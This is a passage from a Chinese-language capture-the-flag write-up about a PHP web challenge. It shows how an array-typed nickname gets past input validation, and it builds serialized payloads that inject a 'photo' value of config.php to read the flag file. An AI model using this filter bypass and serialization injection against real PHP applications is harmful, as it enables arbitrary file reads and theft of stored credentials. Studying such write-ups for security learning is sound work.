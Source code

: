 那么我们不能直接修改文件名来控制读取文件的内容了，再看看表单的其他参数：

```php
if(!preg_match('/^\d{11}$/', $_POST['phone']))
	die('Invalid phone');

if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
	die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');
```

phone 和 email 被限制了，只有 nickname 可以绕过。它的判断条件用了个 ``or`` 运算符，当我们使 nickname 为数组时，前面的正则会返回 false，由于 ``or`` 的存在，只会判断后面的，strlen 的参数为数组时，会返回 NULL，与 10 比较会转换为 0；由此，nickname 的参数为数组即可绕过这个过滤。

所以我们构造 nickname，使 profile 经过序列化、替换、反序列化后的 ``$profile['photo']`` 值替换掉原本经过 md5 后的 ``$profile['photo']`` 文件名，读出flag。

首先看看正常的序列化的结果：

```php
<?php
$profile['phone'] = '13393731122';
$profile['email'] = '123@qq.cn';
$profile['nickname'] = ['a'];
$profile['photo'] = 'upload/' . md5('gtfly');;

echo serialize($profile);
```

```
a:4:{s:5:"phone";s:11:"13393731122";s:5:"email";s:9:"123@qq.cn";s:8:"nickname";a:1:{i:0;s:1:"a";}s:5:"photo";s:39:"upload/1791e49ef8cf4fc717bdf26e9fad4fb7";}
```

现在 nickname 字段可控了，我们最终要得到的序列化字符串为：

```
a:4:{s:5:"phone";s:11:"13393731122";s:5:"email";s:9:"123@qq.cn";s:8:"nickname";a:1:{i:0;s:1:"a";}s:5:"photo";s:10:"config.php";}s:5:"photo";s:39:"upload/1791e49ef8cf4fc717bdf26e9fad4fb7";}
```

即比正常的多出来：

```
";}s:5:"photo";s:10:"config.php
```

如果我们直接构造：

```php
<?php
$profile['phone'] = '13393731122';
$profile['email'] = '123@qq.cn';
$profile['nickname'] = ['";}s:5:"photo";s:10:"config.php'];
$profile['photo'] = 'upload/' . md5('gtfly');;

echo serialize($profile);
print_r(unserialize(serialize($profile)))；
```
